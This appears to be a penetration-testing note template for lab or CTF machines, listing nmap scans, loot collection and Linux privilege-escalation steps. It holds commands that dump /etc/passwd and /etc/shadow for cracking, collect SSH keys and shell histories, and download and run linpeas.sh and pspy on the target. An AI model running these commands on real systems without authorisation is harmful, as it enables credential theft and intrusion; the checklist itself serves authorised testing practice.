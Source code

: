 <% tp.file.rename("0_SystemChecklist")%>

# Enumeration

```bash
export hip="";nmap --top-ports 30 $hip
```

```bash
i="$hip";sudo nmap --osscan-guess -T 5 -A -p- $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html && sudo nmap -T 5 -sUV --top-ports 100 $i -oN 0_udp_top100.txt
```

> Then, create services templates.

# Initial Foothold

> Use the service template to document possible attack vectors and document here which worked
### Old software

##### Example Software (v1.0.0)

	 `searchsploit` and Google Dorks

### Insecure configurations

##### Insecure configuration 1
	NSE scripts: `ls /usr/share/nmap/scripts`


# Loot

Hostname `hostname`
	

Flag `cat /home/$(id -un)/local.txt`
	

Upgrade [[1_shells#Upgrades]]
	
##### Users
```bash
cat /etc/passwd; cat /etc/shadow; w
```
	
`unshadow passwd shadow > unshadowed.txt` 
##### Network
```bash
ip a; /sbin/route; netstat -anp; sudo iptables -S
```
	
##### Interesting files
```bash
ls /home/*/.gpg/; ls /home/*/.ssh/; cat /home/*/.*_history; find / -name ".git" 2>/dev/null | cd | git config --list 2>/dev/null; ls -alh /var/mail/
```
	
##### Home folder
```bash
ls -al /home/*/; ls -al /root/; find / -user $(id -un) -type f 2>/dev/null | grep -Ev "^/sys|^/run|^/proc"
```
	
# PrivEsc
Find Working Dir for attack
```bash
find / -writable -type d -print -quit 2>/dev/null
```
	

### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh; chmod +x linpeas.sh; ./linpeas.sh &> linpeas.txt & less -r +F linpeas.txt
```
Read it with color-highlighting using `less -r linpeas.txt`
```bash
grep "CRON" /var/log/syslog; dpkg -l
```
Get commands run by non-accessible cronjobs and other tasks
```bash
wget -q https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 && chmod +x pspy32 && timeout 30s ./pspy32 | tr -s ' ' | cut -d ' ' -f 3-4,7- | sed -e 's/$/\x1b[m/' | perl -ne 'BEGIN{$|=1}; print unless ${$_}++'
```

##### Finding 1
